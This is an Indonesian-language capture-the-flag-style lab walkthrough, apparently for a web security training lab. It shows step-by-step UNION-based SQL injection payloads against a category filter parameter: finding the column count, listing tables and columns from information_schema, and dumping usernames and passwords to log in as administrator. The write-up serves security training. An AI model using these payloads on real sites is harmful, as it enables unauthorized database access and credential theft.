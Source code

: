 # SQL injection attack, listing the database contents on non-Oracle databases

<figure><img src="../../../.gitbook/assets/gambar (6).png" alt=""><figcaption></figcaption></figure>

di lab ini tujuan akhirnya adalah kita login sebagai administrator. tapi sebelum itu  kita harus mengambil kredensial yang ada di database melalui celah UNION bases SQL Injection.

langkah pertama, identifikasi titik yang dapat di eksploitasi. dalam hal ini ada di parameter bagian kategori: `filter?category=Pets` .

di bagian akhir URL, tambahkan payload untuk menentukan jumlah kolom.

`category=Pets'+UNION+SELECT+'asd','qwe'+--+` dengan payload ini kita mendapatkan respon halaman normal, artinya jumlah kolom ada 2.

sekarang kita perlu tahu tabel apa saja yang ada di database, untuk itu buat payload seperti berikut:

`category=Pet'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--+`&#x20;

payload di atas akan menampilkan seluruh nama tabel yang ada di database. cari tabel yang berisi kredensial pengguna, seperti user, users, dll.

<figure><img src="../../../.gitbook/assets/gambar (1).png" alt=""><figcaption></figcaption></figure>

setelah tahu nama tabelnya, kita harus tahu juga nama kolom yang ada di tabel itu. buat payload seperti berikut:

`category=Pet'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_yicmid'--+` ini akan menampilkan nama kolom untuk tabel `users_yicmid`. (dalam pengerjaan lab, nama tabel mungkin saja berbeda, intinya adalah tabel yang berkaitan dengan users)

<figure><img src="../../../.gitbook/assets/gambar (2).png" alt=""><figcaption></figcaption></figure>

langkah terakhir, baca isi kolom menggunakan payload berikut:

`Pet'+UNION+SELECT+username_pkppkf,password_miwula+FROM+users_yicmid--+`&#x20;

<figure><img src="../../../.gitbook/assets/gambar (3).png" alt=""><figcaption></figcaption></figure>

setelah mendapatkan kredensial, gunakan akun administrator untuk login.

<figure><img src="../../../.gitbook/assets/gambar (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/gambar (5).png" alt=""><figcaption><p>solved!</p></figcaption></figure>
